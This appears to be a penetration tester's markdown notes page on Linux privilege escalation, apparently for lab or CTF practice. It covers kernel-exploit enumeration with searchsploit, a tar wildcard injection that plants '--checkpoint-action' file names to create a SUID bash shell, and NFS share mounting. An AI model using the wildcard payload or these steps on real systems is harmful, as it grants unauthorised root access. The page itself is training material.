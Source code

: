 - https://gtfobins.github.io/

# Exploiting Kernel Vulnerabilities

```bash
cat /etc/issue

uname -r

arch

searchsploit ...

searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

scp cve-2017-16995.c joe@192.168.123.216:
```

# Wildcards with tar

- [Guida Medium](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)
- [Esempio macchina htb usage](https://0xdf.gitlab.io/2024/08/10/htb-usage.html)
- [Guida Wildecards HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z)

There is a task that runs a script every so many minutes that contains the following code:

```bash
#!/bin/bash  
cd /home/kali/Desktop/TarWildCardPrivEsc/  
tar -zcf /home/kali/Desktop/TarWildCardPrivEsc/backup.tgz *
```

The * symbol makes the script vulnerable as it could create a file inside the script directory to get an elevated shell:

```bash
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > shell.sh  
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

ls -la /tmp/bash
/tmp/bash -p
```

# File Share

Search file share (e.g. on a machine reachable only by the target):

```shell
showmount -e 172.16.8.20
```

Creating (mounting) the file share:

```shell-session
root@dmz01:/tmp# mkdir DEV01
root@dmz01:/tmp# mount -t nfs 172.16.8.20:/DEV01 /tmp/DEV01
root@dmz01:/tmp# cd DEV01/
root@dmz01:/tmp/DEV01# ls
```



